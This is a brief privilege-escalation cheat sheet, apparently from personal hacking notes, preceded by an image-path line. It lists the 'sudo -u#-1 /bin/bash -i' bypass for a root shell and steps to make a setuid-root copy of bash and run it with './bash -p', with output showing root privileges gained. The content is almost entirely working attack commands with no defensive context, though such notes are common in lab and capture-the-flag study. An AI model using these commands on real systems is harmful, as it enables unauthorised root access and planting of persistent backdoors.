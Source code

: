 #### SUDO
* BASH
  ```
  sudo -u#-1 /bin/bash -i

#### Making Bash Executable for Root Priv Esc
```
cp /usr/bin/bash /home/james/

sudo chown root:root bash

sudo chmod +s bash

./bash -p

uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```
